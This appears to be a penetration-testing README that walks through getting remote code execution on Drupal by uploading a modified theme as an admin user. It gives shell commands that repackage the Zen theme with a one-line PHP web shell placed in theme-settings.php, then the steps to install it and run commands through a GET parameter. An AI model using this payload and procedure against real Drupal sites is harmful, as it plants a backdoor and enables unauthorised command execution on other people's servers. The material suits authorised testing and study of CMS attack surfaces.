# Drupal - Upload a theme

## Requirements

 - A valid **username and password** of a user with **admin rights** on Drupal.

## Exploitation

Drupal restricts direct access to files and folders, so we have to inject our RCE payload into a theme-specific file that the CMS dynamically loads.

## Creating the theme archive

Visit the themes section on the Drupal website [here](https://www.drupal.org/project/project_theme) and download a theme zip file. We'll use the [Zen](https://www.drupal.org/project/zen/releases/8.x-7.0-alpha15) theme for this example.

After extracting the zip file, find and replace the `theme-settings.php` file with the RCE payload and recreate the zip file of the theme folder:

```sh
wget https://ftp.drupal.org/files/projects/zen-8.x-7.0-alpha15.zip
unzip zen-8.x-7.0-alpha15.zip
echo '<?php system($_GET[0]); ?>' > zen/theme-settings.php
zip -9 -r zen.zip zen/
```

## Accessing dashboard and installing theme

Login with a user with administrative rights on the Drupal at [http://TARGET/user/login](http://TARGET/user/login)

![](images/README/2022-06-27-04-46-36.png)

Select "Appearance" from the side menu and click "+Add new theme" on the next page, which should load the following page:

![](images/README/2022-06-27-05-04-26.png)

Select the modified theme zip file and click "Continue". If the files are uploaded, it should display a message similar to below:

![](images/README/2022-06-27-05-09-03.png)

Go back to the "Appearance" page and find the newly uploaded theme listed under the "Uninstalled themes" section. Click the "install" button under the theme name, and the theme should be under the "Installed themes" section now:

![](images/README/2022-06-27-05-11-55.png)

Click on the "settings" option of the theme, which will load the settings page with the injected RCE payload. In our case with the injected payload, we can add the GET parameter `?0=id` and receive RCE output:

![](images/README/2022-06-27-05-14-58.png)



## References
 - https://www.drupal.org/project/zen
